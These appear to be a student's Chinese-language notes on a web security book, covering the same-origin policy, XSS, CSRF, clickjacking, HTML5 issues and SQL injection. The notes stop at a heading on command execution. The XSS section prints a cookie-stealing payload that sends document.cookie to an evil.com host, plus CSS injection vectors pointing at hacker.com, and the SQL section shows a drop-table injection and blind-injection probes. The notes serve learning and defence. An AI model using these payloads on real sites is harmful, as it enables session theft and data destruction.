




记录的比较简单，只为能有一个记录，如果想起来，能找到在哪里。

!TOC

#第零篇 总览

## 客户端脚本安全 
1. 浏览器安全 

   同源策略（Same Origin Policy）防止了跨域读写某些资源。 
浏览器提供了浏览器沙箱，使进程在一个相对独立的空间运行，能在一定程度上保护浏览器安全。 

2. 跨站脚本攻击 

   跨站脚本攻击主要是注入到网站内容中，授权用户访问内容时执行一段恶意代码，从而获取用户的私密信息或者进行破坏。通常叫做XSS攻击，是针对动态网站的攻击。 

3. 跨站点请求伪造 

   CSRF，指的是伪造出一个请求，诱使授权用户访问，以授权用户的身份去执行请求，从而达到对授权用户信息的读取、攻击等。 

4. 点击劫持 
Click jacking，是指将恶意代码隐藏在看似无害的内容后者按钮之下，诱导用户访问的一种手段。 

5. Html5安全

   1）HTML引入了很多新的标签，一些XSS Filter可能并没有覆盖这些新增的标签和功能。比如video、audio、iframe的sandbox。此外使用canvas可以在浏览器环境中实现对验证码的在线破解，大大降低了攻击的门槛。

   2）跨域请求的Orgin Header和Access-Control-Allow-Origin的设置。postMessage的引入，使XSS PayLoad变得更加的灵活。

##服务端安全 
1. 注入攻击 

   注入攻击是一种普遍的利用数据库SQL语句进行攻击的方式。使用用户提交的数据拼接数据库操作字符串，如果这些字符串中包含一些特殊字符就有可能查询到数据库关键信息。 

2. 文件上传漏洞 

   通常的一个问题就是对上传文件的格式控制不严格，并且文件存放的路径可以通过Web路径直接进行访问；另一种方式，就是文件路径是通过表单的方式提交的，可以使用一个特殊字符“\0”截断文件路径，从而实现对脚本文件的上传。 

3. 认证与会话管理 

   用户的登录状态一般是进过认证之后保存在服务端的，与服务器端的一系列交互即会话。一般对会话的管理。。。

4. 访问控制 

   对于系统中不同的用户具有不同的权限，对这些权限进行控制即访问控制。如果访问控制不严就容易形成漏洞被利用。 

5. 加密算法与随机数 

   系统中对数据进行加密使用的加密算法和随机数生成算法的安全性和健壮性都直接关系到整个系统的安全性。对称加密、非对称加密的密钥的安全性，随机数算法的随机性都是要考虑的问题。

6. Web框架安全
   一些经典的使用率较高的Web框架如：Spring、Struts、Hibernate本身会在整个执行体系中有一些安全漏洞。比如前一阵的Struts2的命令执行漏洞，就是因为在OGNL中可以执行JAVA静态方法造成的。 

7. 应用层拒绝服务攻击 

   DOS，这种攻击是以耗尽服务器资源为目的攻击。DDOS分布式 拒绝服务攻击，是DOS的加强版。防范拒绝服务攻击要从访问入口处进行，限制来自统一IP的访问频率或者就是最大化提升系统的负载能力。 

8. PHP安全和Web服务器配置安全 

   针对与PHP本身的一些API的特点，可以在代码层面进行安全控制。比如，对数据库SQL相关的操作，要对用户输入的参数进行mysql_real_esape等。此外，对于Web Server如Apache http server，对其magic_quote,GLOBAL等配置要权衡关闭和开启是否会对系统的安全造成威胁。


#第一篇 世界安全观
---
##第1章 作者吹逼

1. 安全三要素是安全的基本组成元素，分别是**机密性**（Confidentiality）、**完整性**（Integrity）、**可用性**（Availability）。

   * **机密性**要求被保护的数据不能泄露，加密是实现机密性要求的常见手段。
   * **完整性**则要求保护数据内容是完整、没有被篡改的。常见的保证手段是数字签名。
   * **可用性**要求保护资源是“随需而得”。Dos就破坏了这个规则。

2. 互联网的安全的**核心问题**，是**数据安全**的问题。

3. 微软提出了一种威胁建模方法，叫做STRIDE模型。

   威胁 | 定义 | 对应的安全属性
:----------- | :-----------  | :-----------
Spoofing（伪装）| 冒充他人身份 | 认证 
Tampering（篡改）| 修改数据或代码 | 完整性 
Repudiation（抵赖）| 否认做的的事情 | 不可抵赖性 
Information Disclosure（信息泄露）| 机密信息泄露 | 机密性 
Denial of Service（拒绝服务）| 拒绝服务 | 可用性 
Elevation of Privilege（提升权限）| 未经授权获得许可 | 授权 

4. 同时，微软还提出了一个风险衡量模型DREAD。

   等级 | 高（3） | 中（2） | 低（1）
:------- | :------- | :---------
Damage Potential | 获得完全验证权限；执行管理员操作；非法上传文件 | 泄露敏感信息 | 泄露其他信息
Reproductibility | 攻击者可以随意再次攻击 | 攻击者可以重复攻击，但是有限制 | 攻击者很难重复攻击过程
Exploitability | 	初学者在短期内可以掌握攻击方法 | 熟练的攻击者才能完成这次攻击 | 泄露利用条件非常苛刻
Affected users| 所有用户，默认配置，关键用户 | 部分用户，非默认配置 | 极少用用户，匿名用户
Discoverability | 漏洞很显眼，攻击条件很容易获得 | 在私有区域，部分人能看到，需要深入挖掘漏洞 | 发现该漏洞及其空难

5. 作者自己提出的白帽子法则--Secure By Default原则

   * 黑名单、白名单原则
   * 最小权责原则
   * 纵深防御原则，指需要全面防御
   * 数据和代码分离原则，指漏洞的成因
   * 不可预测原则，指攻击方式的不可预测 

#第二篇 客户端脚本安全
---
##第2章 浏览器安全

1. **同源策略（Same Origin Policy）**是一种约定，它是浏览器最核心也是最基本的安全功能。**浏览器的同源策略，限制了来自不同源的“document”或脚本，对当前“document”读取或设置某些属性**。影响源的因素：**host（域名或者IP地址），子域名，端口，协议**。

   值得注意的是，对于当前页面来说，页面存放JavaScript文件的域并不重要，重要的是加载Javascript的页面所在的域是什么，通过这样一段代码描述。

   ```
 <script src=http://b.com/b.js></script>
```


   这段代码是a.com页面上加载了b.com上的b.js，但是b.js是运行在a.com页面上的，因为对于当前打开的页面（a.com）来说，b.js的Origin就应该是a.com，而不是b.com。

2. XMLHttpRequest受到同源策略的约束，不能够跨域访问资源，在进行AJAX开发时要注意这有点。技术发中中，W3C委员会制定出了XMLHttpRequest跨域访问标准，通过目标域返回的HTTP头来授权是否允许跨域访问。

3. 在网页中插入一段恶意代码，利用浏览器漏洞执行任意代码的攻击方式，就做**挂马**。

##第3章 跨站脚本攻击（Cross Site Script，XSS）

1. 跨站脚本攻击，英文全称为Cross Site Script，与层叠样式表（Cascading Style Sheet，CSS）重复了，所以使用了XSS。XSS攻击，一般是指黑客通过各种方式篡改了网页，插入了恶意代码，用户在浏览网页时，控制用户浏览器的一种攻击。一开的时候，这种攻击的的演示案例是“跨域”的，所以叫做“跨站脚本”，现在，前端技术的发展使得跨域是否已经不重要，由于历史的原因，还是叫做XSS。

2. XSS根据效果分成三类：

   * 反射型XSS：只是简单的用户输入的数据**反射**给浏览器，也就是说，黑客往往需要诱使用户点击一个恶意连接，才可能攻击成功，反射型XSS也叫做**非持久型XSS**（Non-Persisent XSS）。
   * 存储型XSS：它会把用户输入的数据**存储**在服务器上，具有非常高的稳定性。一个常见场景，黑客写一篇含有恶意代码的博客，文章发表后，所有访问这篇文章的用户都会执行这些恶意代码。这类XSS也叫做**持久型XSS**（Persisent XSS）。
   * DOM Based XSS：这种XSS不是按照**数据是否保存在服务器上**区分的，按照原理，DOM Based XSS应该算是反射型XSS，但是它的形成比较特殊，安全专家专门提出了将它单独分为一类。
 
 3. 一个简单的XSS Payload
 
    一个最常见的XSS Payload就是读取浏览器的Cookie对象，从而发起**Cookie劫持**攻击。攻击者首先加载一个远程脚本，这样可以有效的避免在URL的参数中写入大量的Javascript。
 
    ```
  http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>
 ```
    真正的攻击脚本写在这个远程脚本evil.js中。
 
    ```
  var img = document.createElement("img");
  img.src = "http://www.evil.com/log?" + escape(document.cookie);
  document.body.appendChild(img);
 ```
   这段代码在页面中插入了一张不可见的图片，同时把cookie对象当做参数发向了攻击者的服务器。这样就构造了最简单的一个窃取cookie的XSS Payload。

4. XSS都能干什么

   * 构造Get和Post请求直接调取系统的功能。
   * XSS钓鱼。
   * 识别用户浏览器。
   * 识别用户安装的软件。
   * CSS History Hack，通过style的visited属性，因为如果用户访问过某个页面，那么这个连接的颜色会不一样。
   * 获取用户的真实IP。

5. XSS攻击平台：Attack API，BeEF，XSS-Proxy，目前国内网上有不少在线攻击平台，可以自行百度使用。

6. XSS蠕虫，书中给出了MySpace.com和百度空间的XSS蠕虫例子。

7. 调试JavaScript

   * Firebug，FireFox中超好用。
   * IE 8 Develper Tools，这个很老了，新版的IE都自带了JavaScript的调试器。
   * Fiddler，一个本地代理服务器，很好用，与之类似的还有Burp Suite。
   * HttpWatch，嵌入在浏览器中，能够监测所有浏览器请求。
 
8. XSS构造技巧

   * 利用字符编码，如Unicode组合字符，在百度搜索中“%c1\”就是一个Unicdoe字符，转义符号“\”被绕过了。
   * 绕过长度限制：
     * 利用时间（Event）来缩短需要的字节数。
     * 利用location.hash来访Payload，然后eval(location.hash)。因为location.hash也是有长度的，所有如果需要的Payload特别上，可以在loaction.hash里放入远程加载代码的Payload。
     * 在一些环境中，可以使用注释来绕过长度限制。
   * 使用<base>标签，它的作用是定义页面上的所有使用相对路径标签的host地址。如一张地址为 http://www.google.com/a/b/c/d/e.png 的图片用下面的代码使用。<base>标签可以使用在页面的任何地方，并作用于该标签之后的所有标签。如果攻击者控制了这个标签，就可以在远程服务器上控制图片、连接和脚本，所以这是一个非常危险的标签，如果要做安全方案，必须得过滤这个标签。
 
     ```
<body>
<base href="http://www.google.com"/>

</body>
   ```
   * window.name的妙用：对当前窗口的window.name对象赋值，没有特殊字符的限制。因为window对象是浏览器窗体，而不是document对象，并且很多时候window对象不受同源策略的限制。如当www.a.com一个页面test.html上修改了window.name的值后，页面跳转到www.b.com站点的一个页面test.html，会发现window.name的值并没有改变。利用这一点，就可以实现跨域攻击。

9. 容易被忽略的角落 Flash XSS

   在Flash中使用的ActionScript脚本语言，一个基本的XSS可以这样写。

   ```
getURL("javascript:alert(document.coolie)")
```
如果将含有这段代码的Flash放入网页中，那么就能获得用户的cookie。所以在做XSS Filter时，需要把**\<embed\> \<object\>**等标签过滤。如果一定要使用Flash，那么可以将Flash转化为**flv**文件，**flv**是静态文件，不会产生安全威胁。如果是带动态脚本的Flash，可以通过Flash配置参数进行限制，在**\<embed\>**中有属性**allowScriptAccess**，这个参数定义Flash是否可以和页面进行交互，他有三个可选值：

    * always，对交互不做任何限制。
    * sameDomain，只可以和本域的页面交互，默认值。
    * never，绝对禁止交互。
 
   还有一个参数**allNetWorking**来控制Flash是否能和外部网路进行通讯，他也有三个可选值：

    * all，允许使用所有网络，默认值。
    * internel，Flash不能与浏览器通信如navigateToURL，但是可以调用其他的API。（其他的API指什么？）
    * none，禁止任何通信。

10. **XSS防御**

    1. **HttpOnly** ：HttpOnly最早是由微软提出，在IE6中实现，现在已经成为一种通用的标准。使用了这个参数，浏览器将禁止页面的JavaScript访问带有HttpOnly的Cookie。这样，即使已经被XSS攻击成功，Cookie也不能够被黑客拿走。HttpOnly的**标记时机**，一个Cookie的使用过程。
       1. 浏览器向服务器发起请求，这时候并没有Coolie。
       2. 服务器返回时发送 Set-Cookie 头，向客户端写入Cookie。在这个时机，服务器将HttpOnly写入Cookie，服务器可能向客户端发送多个Cookie，HttpOnly可以选择性的标记在某些Cookie上。
       3. 在该Cookie到期前，浏览器访问该域下所有的页面，都将发送该Cookie。

    2. **输入检查** ：最常用的方法，转义或者过滤。
    3. **输出检查** ：最常用的方法，转义。
    4. 正确的防御XSS，要根治XSS问题，要针对发生的场景来做相应的处理。作者给出了以下几种方式

       * 在HTML标签中输出，使用HtmlEncode防御。
     
          ```
    <div>$var</div>
    XSS为
    <div><scirpt>alert(/xss/)</script><div>
    ```
       * 在HTML属性中输出，使用HtmlEncode防御。
   
          ```
    <div id="abc" name="$var"></div>
    XSS为
    <div id="abc" name=""><script>alert(/xss/)</script><""></div>
    ```
       * 在<script\>标签中输出，使用JavascriptEncode防御。
 
          ```
    <script> var x = "$var"</script>;
    XSS为
    <script> var x = ""; alert(/xss/); //";
    ```
       * 在事件中输出，使用JavascriptEncode防御。
 
          ```
    <a href=# onclick="funcA('$var')">test</a>
    XSS为
    <a href=# onclick="funcA('');alert(/xss/);//')">test</a>
    ```
       * 在CSS中输出，使用OWASP ESAPI中的EncodeForCSS防御。使用sytle、style attribute形成XSS的方式非常多，给出几种例子。
 
          ```
    <style>@import'http://hacker.com/xss.css';</style>
    <style>Body{-moz-binding:url("http://hacker.com/xssmoz.xml#xss")}</style>
    <xss style="behavior:url(xss.htc);">
    <style>li {list-style-image: url("javascript:alert('XSS')");}</style><ul><li>XSS
    <div style="vackground-image: url(javascript:alert('XSS'))">
    <div style="width: expression(alert('XSS'));">
    ```
       * 在地址中输出，使用URLEncode防御。当地址被控制了以后，使用一些特殊的伪协议可以导致脚本执行，如**dataURI**伪协议。
 
    5. 处理富文本，重要的时要区分哪些是用户真正的输入，哪些是恶意XSS代码。在处理富文本的时候，首先还是回到**输入检查**上，使用**HtmlParser**可以解析出HTML代码的标签，标签属性和时间，然后过滤这些，**事件**应该被严格禁止，有很多危险标签，如iframe、scirpt、base、form等，也是应该禁止的。在标签的选择上，应该使用**白名单**，而不应该使用黑名单，标记哪些标签是安全的才是正确的方法。 

    6. 防御DOM Based XSS，如例子
      
         ```
      <script>
      var x = "$var";
      document.write("<a href='" + x +"'> test </a>");
      </script>
      ```
      在代码上架设为了保护**$var**，服务器使用了javascriptEncode对$var进行了编码，但是当使用document.write时，仍然可以产生XSS，因为在使用document.write时，浏览器重新渲染页面，对$var进行了解码。要解决这个问题，在document.write的时候，做一次判断，如果输入到事件或脚本中，做一个javascriptEncode，如果输入到HTML内容或者属性中，进行一个HTMLEncode。有一幅图说明。
      
      按着上图的规则去做编码设置，能够触发DOM Based XSS的地方很多，从JavaScript输出到HTML页面的必经之路。
       * document.write()
       * document.writeln()
       * xxx.innerHTML
       * xxx.outerHTML
       * document.attachEvent()
       * window.attachEvent()
       * document.location.replace()
       * document.location.assing()
 
       除了这些外，还有几个地方可能会成为DOM Based XSS的输入点
       * 页面中所有的input输入框
       * window.location
       * window.name
       * document.referrer
       * document.cookie
       * localstorage
       * XMLHttpRequest返回的数据
       
##第4章 跨站点请求伪造（Cross Site Request Forgery，CSRF）

1. 什么是**CSRF**

   诱使用户访问一个链接，使用用户身份在第三方站点进行一次或多次操作，达到操作用户在其他站点的操作模拟，如删除博客，银行转账等等，叫做**跨站点请求伪造**。
   
2. CSRF进阶

   1. 浏览器的Coolie策略
   
      攻击者能够在第三方站点操作用户原本网站的内容，是因为用户的浏览器中存储了原站点的Cookie，用户产生操作请求时，自动发送了这些Cookie，导致了攻击的形成。
      
      浏览器所持有的Cookie分为两种，一种是**Session Cookie**，称为**临时Cookie**，一种是**Third-party Cookie**，称为**本地Cookie**。两者的区别在于，本地Cookie是服务器设置了过期（Expire）时间，只有超过了过期时间，Cookie才失效，这种Cookie保存在本地；而临时Cookie没有过期时间，浏览器关闭后，就失效了。在浏览网站过程中，如果一个网站给用户设置了Session Cookie，则在浏览器进程生命周期内，即使新打开Tab页，这个Cookie也是存在的，它保存在浏览器的进程内存空间中。
      
      在主流浏览器中，默认拦截本地Cookie的有：IE6、IE7、IE8、Safari；不会拦截的有：Firefox2、Firefox3、Opera、Chrome、Android等。   
   2. P3P头的副作用
   
      尽管有一些CSRF攻击实施起来不需要验证，即不需要Cookie，但是实际上大部分敏感、重要的信息还是躲藏在认证之后，所以拦截Cookie的浏览器设定，降低了CSRF的威胁，但是有**P3P头**之后，就不一样了。**P3P Header**是W3C定制的一项关于隐私的标准，全称是**The Platform for Privacy Preferences**,P3P头主要用于类似广告等需要跨域访问的页面，因为如果HTTP头中包含了P3P头，那么浏览器就允许发送本地Cookie。
      
      因为P3P头被目前的网站中广泛使用，所以不能依靠浏览器策略来防御CSRF。    
   3. 很多人认为CSRF是由Get请求造成的，把Get请求全部替换成Post请求就可以防御CSRF。但实际上有很多种方法来构造Post请求，比如最简单的生成一张表单，然后使用Javascript自动提交。
   
   4. Flash CSRF，在以前的版本中，Flash发送网络请求可以携带本地Cookie，但是在IE8以后就不可以了。
   
   5. CSRF Worm，曾经百度用户中心的一个漏洞，可以获取用户好友列表，向好友发送消息，这个消息里就是恶意页面，然后中招的好友继续获取好友列表，发送消息。
   
3. CSRF的防御（CSRF是一种比较奇特的攻击，作者说的-_-#||）

   1. 验证码，验证码被认为是对抗CSRF最简单有效的方法，其实就是把本来不应该有交互的点击链接操作强行加上了了一个输入的过程，操作体验不好。
   
   2. Referer Check，它在互联网中最常见的应用就是**防盗链**，它用来检查请求是否来自合法的**源**。而Referer的缺陷在于服务器不是任何时候都能够渠道Referer，很多用户会禁用Referer，保护自己的隐私，而且在一些情况下，浏览器也不回发送Referer，比如从HTTPS协议降级到HTTP协议，浏览器就不会发送Referer。
   
   3. Anti CSRF Token，目前业界针对CSRF，一致的做法是使用一个Token。
   
      * CSRF的本质：**重要操作的所有参数都可以被攻击者猜测到**。用户了解了每个参数的作用，就可以伪造出合适的链接进行攻击。所以有一个解决方案，就是对参数进行加密，让攻击者不明所以，但是这样对于数据分析工作，用户收藏都带来很大的问题。但是使用Token，就是在参数的最后增加一个参数，赋给一个随机值，这个值只有用户和服务器知道，存储在Session中，由于攻击者无法得到这个Token，就无法构造一个完整的链接，进行CSRF攻击。
      
      * Token的使用原则，Token的生成一定要随机，不够能有规律让攻击者找出规律，然后成功构造链接进行攻击。如果一个页面有XSS漏洞，那么Token就不能够防御CSRF了，因为XSS可以直接读出Token的值，构造链接，这个过程叫做**XSRF**，与CSRF区分。
      
##第5章 点击劫持（ClickJacking）

1. 什么是点击劫持

   点击劫持是一种视觉上的欺骗手段。攻击者使用一个透明的、不可见的iframe，覆盖在一个网页上，然后诱使用户在该网页上进行操作，此时用户将在不知情的情况下点击透明的iframe页面，通过调整iframe页面的位置，可以又是用户恰好点击在iframe页面的一些功能性按钮上。
   
   
2. Flash点击劫持，原理是一样的，只不过容器换成了Flash。

3. 图片覆盖攻击，一名交sven.vetsch的安全研究者首先提出了这种Cross Site Image Overlaying哦你攻击，简称XSIO，这种攻击通过调整图片的style舍得图片能够覆盖在任意位置。比如在一个网页的Logo位置被覆盖了一张图片，并且这张图片指向的时一个恶意网站，用户点击了Logo之后就进入了这个网站。XSIO不同于XSS，它利用的是图片的style，或者控制CSS。

4. 拖拽劫持与数据截取，目前很多浏览器都开始支持Drag和Drop的API，对于用户来说，拖拽能够是他们的操作更简单，但是拖拽对象可以是一个连接，文字等等，还可以从一个窗口拖拽到另一个窗口，所以拖拽是**不受同源策略**限制的。拖拽劫持的思路就是有时用户从隐藏的不可见iframe中拖拽出攻击者希望得到的数据，然后放到攻击者能控制的另一个页面中，从而窃取数据。

5. 触屏劫持

6. 防御ClickJacking

   1. frame busting，通常是写一段Javascript代码，禁止iframe的嵌套。
   
   2. X-Frame-Options，因为frame busting存在被绕过的可能，则产生了另一个方案，使用一个HTTP头--X-Frame-Options。这个选项有三个可选的值。
   
      * DENY 拒绝当前页面加载任何frame页面
      * SAMEORIGIN 只能加载同源的页面
      * ALLOW-FORM origin 允许frame加载的页面地址
      
      除了X-Frame-Options之外，Firefox的“Content Security Policy” 已经Firefox的NoScript扩展也能够有效的防御ClikcJacking。
      
##第6章 HTML5安全

1. HTML5的新标签

   1. 新标签的XSS
   
      HTML5定义了很多新标签、新事件，所以这必然会带来新的XSS攻击种类。
   
   2. iframe的sandbox
   
      在HTML中，如果给iframe添加了属性sandbox，则这个iframe就成为了一个独立的**源**，其中的脚本将禁止执行，表单被禁止提交，插件被禁止加载，执行其他浏览对象的链接也会被禁止。这个属性有这几个可选的值。
         * allow-same-origin 允许同源访问
         * allow-top-navigation 允许访问顶层窗口
         * allow-forms 允许提交表单
         * allow-scripts 允许执行脚本
      
      有的行为及时设置了allow-scripts，也是不能够执行的，比如“弹出窗口”。
      
   3. Link Types:noreferrer
   
      在HTML5中为`<a>`和`<area>`标签定义了一个新的Link Type：noreferer。顾名思义，制定了noreferer，浏览器在请求这两个标签指向的地址时，将不再发送Referer。
      
   4. Canvas
   
      Canvas可以说是HTML5最大的创新，和``标签只是加载一个远程或者本地图片不一样，`<canvas>`标签让Javascript可以在页面中直接操作图片对象，也可以直接操作像素，构造出图片区域。Canvas可以做游戏，甚至可以用来识别验证码。
      
2. 其他安全问题

   1. Cross-Origin Resource Sharing
   
      浏览器的同源策略（Same Origin Policy）限制了脚本的跨域请求，但是因为各种需求，开发者相处了许多“合法”的方法实现跨域技术，如jsonp、iframe跨域技巧等。为了解决这个问题，W3C制定了一个新的标准，新的标准中如果发起XMLHttpRequest请求，IE8中使用XDomainRequest实现跨域，两种请求都得带上一个**Origin**参数，如果接收方返回的HTTP header头中有参数**Access-Control-Allow-Origin**，并且赋值正确，那么跨域请求就会被通过。
      
   2. PostMessage-跨窗口传递消息
   
      postMessage允许每一个window（包括当前窗口、弹出窗口、iframes等）对象往其他的窗口发送文本消息，从而实现跨窗口的消息传递，这个功能不受同源策略影响。
      
   3. Web Storage，一种浏览器存储信息的方法，分为Sesson Storage和Local Storage。

#第三篇 服务器端应用安全
---
##第7章 注入攻击

注入攻击的本质，就是把用户输入的数据当做代码执行了，这里有两个**关键条件**，**第一个**是用户能够控制输入，**另一个**是原本程序要执行的代码，拼接了用户输入的数据。

1. SQL注入，1998年黑客著名杂志《Phrack》第54期上，一个叫**rfp**的黑客发表了一篇题为“NT Web Technology Vulnerabilities”的文章，第一次向公众介绍了这种新型的攻击。一个简单的例子

   ```
   var sql = "select * from OrdersTable where ShipCity ='" + shipCity + "'";
   ```
   
   这里，本来是通过输入的城市名查询在某个城市的订单信息，但是变量没有经过处理，完全受用户的控制，结果用户输入这样的内容`Beijing';drop table OrderTable--`，整个Sql就变成了
   
   ```
   select * from OrdersTable where ShipCity ='Beijing';drop table OrderTable--';
   ```
   
   很明显，在执行了正常的查询后，还执行了删除表操作，这就是一个典型的Sql注入漏洞。
   
   很多时候，网站的服务器会开启错误回显，如果能构造一个错误的Sql，那么服务器就会将错误信息显示在浏览器上，我们就能很容易知道哪里存在注入漏洞。
   
   有些时候，服务器关闭了错误回显的，为了应对这样的情况，聪明的攻击者想了出盲注（Blind Injection）的技巧。
   
   所谓盲注，就是在服务器没有回显的时候完成注入攻击，因为没有回显，所以攻击者需要找出一种确定Sql是否被执行的方法，最简单的一种就是使用`1=1`和`1=2`这种简单的逻辑判断，让页面显示的内容出现变化，如果有变化，说明存在注入漏洞，通过不同的显示来判定Sql执行成功，如
   
   ```
   http://newspaper.com/items.php?id=2
   ```
   中的sql语句为
      
   ```
   select * from items where id=2
   ```
   而id的参数是可控制的，如果输入`2 and 1=1`，Sq语句变成了
      
   ```
   select * from items where id=2 and 1=1
   ```
   这是一个正常的逻辑，页面可以正常显示，而如果输入`2 and 1=2`，Sql语句变成了
      
   ```
   select * from items where id=2 and 1=2
   ```
   这是一个恒为假语句，永远页不能查询出来内容，网页上也不会显示应该查询出来的`id=2`的内容，用这种方式，就能够判定注入是否是可行的，还有一种方式，是使用延时函数，如mysql中的`sleep()`函数，正常的链接是很快就会返回结果，而使用了延时函数后，如果Sql语句被执行，那么会经过一段时间查询结果才被返回，攻击者很容易就能够判断Sql的执行情况，这种方式叫做**Timing Attack**。
   
2. 数据库攻击技巧

   在找到了注入漏洞后，要实施一次攻击，还需要利用不少的Sql技巧。Sql注入是基于数据库的一种攻击，不同的数据库有着不同的功能，不同的语法和函数，因为针对不同的数据库，Sql注入技巧也有所不同。
   
   1. 常见攻击技巧
   
      Sql注入可以才猜解出数据库的对应版本，猜解字符，读写文件。
      
   2. 命令执行
   
